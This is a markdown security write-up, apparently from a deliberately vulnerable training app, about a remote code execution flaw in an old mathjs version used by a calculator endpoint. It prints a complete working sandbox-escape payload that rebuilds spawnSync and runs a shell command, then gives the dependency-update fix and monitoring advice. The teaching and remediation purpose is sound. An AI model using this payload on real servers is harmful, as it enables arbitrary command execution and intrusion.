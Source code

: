 # Using Components with Known Vulnerabilities

## mathjs Remote Code Execution

The version of mathjs(https://www.npmjs.com/package/mathjs) library used in the application has a remote code execution vulnerability that allows an attacker to run arbitrary code on the server. 

To understand how the exploit works, look at [this](https://capacitorset.github.io/mathjs/)

The calculator implementation uses `mathjs.eval` to evaluate user input at

http://127.0.0.1:9090/app/calc

There is no input validation either, probably because it is going to be a maths equation which will contain symbols

Malicious input that triggers command execution
```
cos.constructor("spawn_sync = process.binding('spawn_sync'); normalizeSpawnArguments = function(c,b,a){if(Array.isArray(b)?b=b.slice(0):(a=b,b=[]),a===undefined&&(a={}),a=Object.assign({},a),a.shell){const g=[c].concat(b).join(' ');typeof a.shell==='string'?c=a.shell:c='/bin/sh',b=['-c',g];}typeof a.argv0==='string'?b.unshift(a.argv0):b.unshift(c);var d=a.env||process.env;var e=[];for(var f in d)e.push(f+'='+d[f]);return{file:c,args:b,options:a,envPairs:e};};spawnSync = function(){var d=normalizeSpawnArguments.apply(null,arguments);var a=d.options;var c;if(a.file=d.file,a.args=d.args,a.envPairs=d.envPairs,a.stdio=[{type:'pipe',readable:!0,writable:!1},{type:'pipe',readable:!1,writable:!0},{type:'pipe',readable:!1,writable:!0}],a.input){var g=a.stdio[0]=util._extend({},a.stdio[0]);g.input=a.input;}for(c=0;c<a.stdio.length;c++){var e=a.stdio[c]&&a.stdio[c].input;if(e!=null){var f=a.stdio[c]=util._extend({},a.stdio[c]);isUint8Array(e)?f.input=e:f.input=Buffer.from(e,a.encoding);}}console.log(a);var b=spawn_sync.spawn(a);if(b.output&&a.encoding&&a.encoding!=='buffer')for(c=0;c<b.output.length;c++){if(!b.output[c])continue;b.output[c]=b.output[c].toString(a.encoding);}return b.stdout=b.output&&b.output[1],b.stderr=b.output&&b.output[2],b.error&&(b.error= b.error + 'spawnSync '+d.file,b.error.path=d.file,b.error.spawnargs=d.args.slice(1)),b;}")();cos.constructor("return spawnSync('id').output[1]")()
```

Which results in this
![rce](/resources/rce.png "Command Execution")

**Solution**

Modify fixed version to compatible version in `package.json`
```
...
    "flash": "^1.1.0",
    "mathjs": "^3.10.1",   // Add ^ to install latest compatible version
    "md5": "^2.2.1",
...
```

Now install the package again by running `npm install`

**Fixes**

Implemented in the following files

- *package.json*

**Recommendation**

- Dependencies must be updated regularly, and preferably automatically. 
- Solutions like [Snyk](https://snyk.io/) and [NSP](https://nodesecurity.io/) can regularly monitor your dependencies and alert you of any vulnerable dependencies.

**Reference**

- <https://www.owasp.org/index.php/Top_10-2017_A9-Using_Components_with_Known_Vulnerabilities>
- <https://blog.travis-ci.com/2017-04-20-continuous-security-snyk-travis-ci/>

